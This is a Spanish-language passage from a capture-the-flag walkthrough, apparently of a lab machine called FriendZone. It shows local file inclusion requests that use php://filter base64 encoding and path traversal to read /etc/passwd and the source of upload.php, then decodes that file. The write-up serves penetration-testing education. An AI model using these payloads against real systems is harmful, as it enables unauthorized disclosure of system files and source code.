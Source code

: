 ```plaintext
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=/etc/passwd%00

https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=../../../../../../../../../etc/passwd%00
```
Veamos que otros archivos php podemos conseguir. En la página fuente del dominio **https://uploads.friendzone.red/** vimos este recurso **upload.php**, que parece subir imagenes. Es recomendable apuntarse todos estos archivos de la máquina en algún fichero. Probemos el LFI para upload.php.

```plaintext
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=upload
# Nada, no funciona

https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=../upload
# Tampoco

# Pero si pruebo por ../uploads/upload si funciona. Por el dominio que era podría probarse.
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=../uploads/upload
```

Y decodeamos para ver que es:

```sh
❯ echo "PD9waHAKCi8vIG5vdCBmaW5pc2hlZCB5ZXQgLS0gZnJpZW5kem9uZSBhZG1pbiAhCgppZihpc3NldCgkX1BPU1RbImltYWdlIl0pKXsKCmVjaG8gIlVwbG9hZGVkIHN1Y2Nlc3NmdWxseSAhPGJyPiI7CmVjaG8gdGltZSgpKzM2MDA7Cn1lbHNlewoKZWNobyAiV0hBVCBBUkUgWU9VIFRSWUlORyBUTyBETyBIT09PT09PTUFOICEiOwoKfQoKPz4K" | base64 -d > upload.php
❯ cat upload.php
```

```php
<?php

// not finished yet -- friendzone admin !

if(isset($_POST["image"])){

echo "Uploaded successfully !<br>";
echo time()+3600;
}else{

echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";

}

?>
```

Se puede ver que es una página de carga de archivos falsa. No parece guardar la imagen en ningún lugar.

